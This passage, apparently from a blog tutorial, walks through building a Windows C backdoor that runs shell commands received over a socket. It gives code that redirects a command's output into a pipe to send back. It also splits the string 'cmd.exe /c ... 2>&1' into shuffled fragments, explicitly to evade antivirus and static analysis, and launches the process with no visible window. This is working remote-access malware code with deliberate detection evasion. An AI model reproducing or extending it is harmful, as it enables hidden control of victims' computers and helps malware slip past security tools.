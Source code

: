 We zero it out with `ZeroMemory()` (just to be safe), set the size, and then activate a flag called `STARTF_USESTDHANDLES`. That tells Windows: "hey, I'm gonna pass in some custom handles for input/output."

We don't care about `stdin` here, so we leave `hStdInput` as `NULL`. But for `stdout` and `stderr`, we point them both to hWrite. The write-end of the pipe we created earlier. That way, any output from the command (even errors) will get sent into the pipe, ready for us to catch and send back.

```c
STARTUPINFOA si;
PROCESS_INFORMATION pi;
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
si.dwFlags |= STARTF_USESTDHANDLES; //equals as si.dwFlags = si.dwFlags | STARTF_USESTDHANDLES
si.hStdInput = NULL;
si.hStdOutput = hWrite;
si.hStdError = hWrite;
```

In this part, we take it a step further with a custom evasion trick. Just like we did with the IP address, we split the command up into smaller chunks to avoid having a clear text command like `cmd.exe /c %s 2>&1`, which might get flagged by some antivirus tools.

By declaring the command in several parts throughout the code, we add an extra layer of obfuscation to make it harder for static analysis tools to spot what we are actually doing.

After that, we simply combine all the parts together using `snprintf()` to form the full command we want to execute. Here's how it's done:

```c
char part3[] = "cm";
char part4[] = "d.e";
char part1[] = "xe";
char part2[] = " /c ";
char part6[] = "&1";
char part5[] = " 2>";

// 3 - 4 - 1 - 2 - command - 5 - 6
char cmdLine[BUFFER_SIZE + 32];
snprintf(cmdLine, sizeof(cmdLine), "%s%s%s%s%s%s%s", part3, part4, part1, part2, command, part5, part6);
```

Now we create the process with `CreateProcessA()` with the command we just build. We also use `CREATE_NO_WINDOW` to ensure nothing is shown to the user.

```c
BOOL success = CreateProcessA(NULL, cmdLine, NULL, NULL, TRUE,
                                  CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
```

If the process creation is successful, we close the write handle (`hWrite`) since we only need to read from the pipe. Then, we enter a loop where we continuously read the output from the pipe and send it over the socket. Once all the data is transferred, we close the necessary handles.

If the process creation fails, we simply send an error message through the socket.
